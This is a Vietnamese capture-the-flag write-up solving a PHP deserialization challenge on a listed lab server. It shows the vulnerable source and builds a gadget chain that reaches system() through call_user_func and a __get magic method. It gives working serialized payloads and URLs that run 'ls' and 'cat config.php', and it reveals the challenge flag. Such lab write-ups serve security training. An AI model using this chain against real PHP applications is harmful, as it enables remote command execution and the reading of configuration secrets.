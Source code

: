 # Bài tập 1 - Nhóm bài tập

##
### Team: Acceleration

### Link bài tập: [http://45.122.249.68:10001/](http://45.122.249.68:10001/)
##

Bước đầu truy cập vào link, ta nhận được một file php của server

```php
<?php
#include "config.php";
class User{
    private $name;
    private $is_admin = false;
    public function __construct($name){
        $this->$name = $name;
    }
    public function __destruct(){
        if($this->is_admin === true){
            echo "hi admin, here is your flag";
        }
    }
}
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
     public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
}
class do_nothing{
    public $why;
    public $i_use_this;
    public function __construct($a,$b){
        $this->why = $a;
        $this->i_use_this = $b;
    }
    public function __get($method){
        if(isset($this->why)){
            return $this->i_use_this;
        }
        return $method;
    }
}
if(isset($_GET['code'])){
    unserialize($_GET['code']);
}
else{
    highlight_file(__FILE__);
}
?>
```

Phần code gồm 3 class và phần if phía dưới, ta phân tích phần if phía dưới

```php
if(isset($_GET['code'])){
    unserialize($_GET['code']);
}
else{
    highlight_file(__FILE__);
}
```

Ta thấy rằng server lấy dữ liệu từ biến code, và tiến hành unserialize, vậy đây là lỗi php deserialization, ta sẽ lợi dụng việc deserialization để thay đổi các object

Nhìn vào class `Show_color`, ta thấy trong class này có hàm `__destruct()` sẽ được tự động gọi khi hủy đối tượng, trong đó gọi đến `call_user_func($this->type->adu,$this->color)`
hàm này nếu ta control được 2 đối số truyền vào, ta có thể thực thi lệnh hệ thống, ví dụ ta có thể thực thi `system('ls')` bằng `call_user_func('system','ls')`

```php
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
     public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
}
```

Vậy bây giờ ta cần tìm cách để gán 2 tham số vào, ta nhận thấy tham số thứ 2 đến từ `$this->color`, ta dễ dàng thay đổi vì chúng được unserialize từ dữ liệu ta đưa vào biến `code`, còn tham số đầu tiên dùng truy vấn
`$this->type->adu`, như vậy ta phải thay `$this->type` bằng một `object` mà `object->adu = 'system'`

Trong 3 class trong source code không có class nào có thuộc tính `adu` cả, tuy nhiên ta để ý class `do_nothing` có một magic method `__get()`

```php
class do_nothing{
    public $why;
    public $i_use_this;
    public function __construct($a,$b){
        $this->why = $a;
        $this->i_use_this = $b;
    }
    public function __get($method){
        if(isset($this->why)){
            return $this->i_use_this;
        }
        return $method;
    }
}
```

Với magic method `__get()` này thì các truy vấn như `object->adu` sẽ không truy vấn trực tiếp đến biến `adu` trong class nữa mà sẽ được truyền vào hàm `__get($method)` với `$method = 'adu'`

Nhìn vào hàm `__get($method)`, ta nhận thấy nếu biến `$this->why` được set giá trị thì hàm sẽ luôn trả về `$this->i_use_this` bất kể giá trị `$method` có là gì, vậy ta chỉ cần thay
`$this->type` ở class `Show_color` là một object thuộc class `do_nothing` với tham số `$this->why = 1` và `$this->i_use_this = 'system'` (tham số `$this->why` được set tùy ý)

Như vậy khi hủy đối tượng thuộc class `Show_color`, server gọi hàm `call_user_func($this->type->adu,$this->color)` với `$this->type->adu = $this->type->i_use_this = 'system'` và `$this->color = 'ls'`

Ta sử dụng code sau để unserialize đối tượng

```php
<?php
class User{
    private $name;
    private $is_admin = false;
    public function __construct($name){
        $this->$name = $name;
    }
    public function __destruct(){
        if($this->is_admin === true){
            echo "hi admin, here is your flag";
        }
    }
}
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
    public function __destruct(){
        call_user_func($this->type->adu,$this->color);
    }
}
class do_nothing{
    public $why;
    public $i_use_this;
    public function __construct($a,$b){
        $this->why = $a;
        $this->i_use_this = $b;
    }
    public function __get($method){
        if(isset($this->why)){
            return $this->i_use_this;
        }
        return $method;
    }
}
$a = new do_nothing(1, 'system');
$b = new Show_color($a, 'ls');
echo serialize($b);
?>
```

Chạy thử, ta nhận được chuỗi serialize là `O:10:"Show_color":2:{s:5:"color";s:2:"ls";s:4:"type";O:10:"do_nothing":2:{s:3:"why";i:1;s:10:"i_use_this";s:6:"system";}}`

![](images/1.png)

Thay vào biến code trên link [http://45.122.249.68:10001/?code=O:10:%22Show_color%22:2:{s:5:%22color%22;s:2:%22ls%22;s:4:%22type%22;O:10:%22do_nothing%22:2:{s:3:%22why%22;i:1;s:10:%22i_use_this%22;s:6:%22system%22;}}](http://45.122.249.68:10001/?code=O:10:%22Show_color%22:2:{s:5:%22color%22;s:2:%22ls%22;s:4:%22type%22;O:10:%22do_nothing%22:2:{s:3:%22why%22;i:1;s:10:%22i_use_this%22;s:6:%22system%22;}})

![](images/2.png)

Ta thấy trong system có 2 file là `index.php` (file đang chạy) và `config.php`

Sử dụng cách cũ nhưng lần này ta thử thay lệnh 'ls' bằng lệnh 'cat config.php' thử

serialize: `O:10:"Show_color":2:{s:5:"color";s:14:"cat config.php";s:4:"type";O:10:"do_nothing":2:{s:3:"why";i:1;s:10:"i_use_this";s:6:"system";}}`

link: [http://45.122.249.68:10001/?code=O:10:%22Show_color%22:2:{s:5:%22color%22;s:14:%22cat%20config.php%22;s:4:%22type%22;O:10:%22do_nothing%22:2:{s:3:%22why%22;i:1;s:10:%22i_use_this%22;s:6:%22system%22;}}](http://45.122.249.68:10001/?code=O:10:%22Show_color%22:2:{s:5:%22color%22;s:14:%22cat%20config.php%22;s:4:%22type%22;O:10:%22do_nothing%22:2:{s:3:%22why%22;i:1;s:10:%22i_use_this%22;s:6:%22system%22;}})

Ta nhận được một trang trắng tinh, những kiểm tra source, ta tìm được flag

![](images/3.png)

flag: `flag{n0j_l0j_pk4j_qju_l4y_l0j_dunq_nku_c0n_bu0m_d4u_r0j_l4j_b4y}`


